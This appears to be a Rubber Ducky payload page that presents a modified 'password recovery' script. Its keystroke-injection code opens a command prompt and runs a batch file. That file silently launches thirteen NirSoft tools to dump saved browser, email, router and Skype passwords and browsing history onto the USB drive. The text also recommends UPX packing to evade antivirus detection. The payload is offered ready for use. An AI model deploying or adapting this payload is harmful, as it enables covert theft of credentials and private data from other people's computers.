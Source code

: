The following is a modified version of Mr Gray's password recovery script for the USB rubber ducky. Modifications include googleKnowsBest's ducky drive detection if the drive is labeled "DUCKY", which has been coded to work on all current windows OS's, and a modification to run from a folder on the ducky labeled "MrGraysRubberHacks". This payload has also been tweaked to be a little more forgiving to errors, and as such has some more delays. Forgiving as this script is, it may need customized delays depending on the users requirements. The payload is designed for c_duck_v2_S001.hex, and c_duck_v2_S002.hex firmware types. Wait for the ducky's drive to mount, and then press the button to launch this payload. This payload may also be launched using a binary duck attack in which you use stock duck firmware, linked to a mass storage device via a 2 port USB cable splitter. This method would mount the mass storage almost instantaneously which would negate the need to wait for the ducky's mass storage to mount. 
The forum page is located here: 

http://forums.hak5.org/index.php?/topic/29067-payload-mr-grays-password-history-recovery-tool-for-rubber-ducky/

The executables are accessible at: 

http://www.mediafire.com/?nm1c62qt9w9z3wg

The executables are also individually downloadable from their original location at nirsoft. The executables become resistant to most antivirus detection using the packer UPX. Other such products would further obfuscate the signatures. 

```
ENCODE: 

DEFAULT_DELAY 25
REM File: MrGraysRubberHacks.txt
REM Target: WINDOWS VISTA/7
DELAY 1000
ESCAPE
CONTROL ESCAPE
DELAY 100
STRING cmd
DELAY 100
ENTER
DELAY 150
STRING for /f "tokens=3 delims= " %A in ('echo list volume ^| diskpart ^| findstr "DUCKY"') do (set DUCKYdrive=%A:)
ENTER
STRING set DUCKYdrive=%DUCKYdrive%\MrGraysRubberHacks
ENTER
STRING %DUCKYdrive%\launch.bat
ENTER

LAUNCH.BAT file: 

for /f "tokens=3 delims= " %%A in ('echo list volume ^| diskpart ^| findstr "DUCKY"') do (set DUCKYdrive=%%A:)

REM Output everything to this folder so I don't have everything on the duck's root. 
set DUCKYdrive=%DUCKYdrive%\MrGraysRubberHacks

start %DUCKYdrive%\WebBrowserPassView.exe /stext %DUCKYdrive%\WebBrowserPassView.txt
start %DUCKYdrive%\SkypeLogView.exe /stext %DUCKYdrive%\SkypeLogView.txt
start %DUCKYdrive%\RouterPassView.exe /stext %DUCKYdrive%\RouterPassView.txt
start %DUCKYdrive%\pspv.exe /stext %DUCKYdrive%\pspv.txt
start %DUCKYdrive%\PasswordFox.exe /stext %DUCKYdrive%\PasswordFox.txt
start %DUCKYdrive%\OperaPassView.exe /stext %DUCKYdrive%\OperaPassView.txt
start %DUCKYdrive%\mspass.exe /stext %DUCKYdrive%\mspass.txt
start %DUCKYdrive%\mailpv.exe /stext %DUCKYdrive%\mailpv.txt
start %DUCKYdrive%\iepv.exe /stext %DUCKYdrive%\iepv.txt
start %DUCKYdrive%\ChromePass.exe /stext %DUCKYdrive%\ChromePass.txt
start %DUCKYdrive%\ChromeHistoryView.exe /stext %DUCKYdrive%\ChromeHistoryView.txt
start %DUCKYdrive%\BulletsPassView.exe /stext %DUCKYdrive%\BulletsPassView.txt
start %DUCKYdrive%\BrowsingHistoryView.exe /stext %DUCKYdrive%\BrowsingHistoryView.txt
```

If you wish to remove the part of the script that contains the code to the folder MrGraysRubberHacks, and instead have all output go to the root of the drive delete the following items:

```
ENCODE: 

...
STRING set DUCKYdrive=%DUCKYdrive%\MrGraysRubberHacks
ENTER
...
```

```
LAUNCH.BAT file: 

...
REM Output everything to this folder so I dont have everything on the duck's root. 
set DUCKYdrive=%DUCKYdrive%\MrGraysRubberHacks
...
```
